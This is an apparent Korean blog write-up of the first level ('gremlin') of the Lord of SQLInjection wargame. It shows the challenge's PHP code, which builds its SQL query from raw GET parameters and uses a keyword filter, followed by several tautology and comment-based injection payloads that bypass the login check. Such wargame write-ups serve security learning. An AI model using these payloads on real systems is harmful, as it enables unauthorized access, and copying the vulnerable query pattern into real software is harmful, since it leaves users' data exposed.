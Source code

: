 ```yaml
---
layout: post

title: Lord of SQLInjection 1일차

description: >
  Lord of SQLInjection Day1

tags:
 - [LOS, SQL, Injection]

toc: true
toc_sticky: true

date: 2023-01-27

sitemap: false

---
```

---
## LORD OF SQLINJECTION
### gremlin
- 문제
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```
<details markdown="1">
<summary>풀이</summary>

```php
$query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
```
- db에서 select한 id를 $query에 저장한다.

```php
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
```
- mysqli_query($db, $query): db에서 query로 가져온 데이터.
- $result = mysqli_fetch_array(): $result에 array로 저장한다.
- if $result['id'] solve("gremlin"): id가 result에 있으면 solve.
> 입력된 id가 db에 있으면 gremlin이 해결된다. admin 등의 id로 시도해볼 수 있겠지만, 여기에선 논리식으로 풀이한다.

- 답안
id= '' and pw= '' 값이 TRUE가 나오면 되는 문제다.
1. id= '' or '1=1' & pw= '' or '1=1'  
가장 단순하게 TRUE and TRUE를 만들었다. 
2. id= '' or '1=1' or '#' /and pw=/  
id를 TRUE로 만들어주고 and 뒤를 주석처리하여 TRUE를 만들었다.
3. **id= '' or '1=1' or '1=1' /and pw=/  
and 연산이 선순위를 가지는 점을 이용하였다. 
TRUE or TRUE and FALSE로 구성했다. 최종 TRUE.**
4. pw='1' or '1=1'  
3.과 같다. FALSE and FALSE or TRUE로 구성했다. 최종 TRUE.
</details>

## 부록
### PHP
- url에서 특수문자는 무시된다. #의 url인코딩 %23   
[GET](https://stonefree.tistory.com/616)
- GET 방식은 데이터를 URL에 붙여 데이터를 전송하는 방식.  
[preg_match](https://ponyozzang.tistory.com/176)
- 첫 번째 인수: 정규식 표현 작성.
- 두 번째 인수: 검색 대상 문자열.  
[PHP MySQL](https://m.blog.naver.com/PostView.naver?isHttpsRedirect=true&blogId=diceworld&logNo=220292127761)
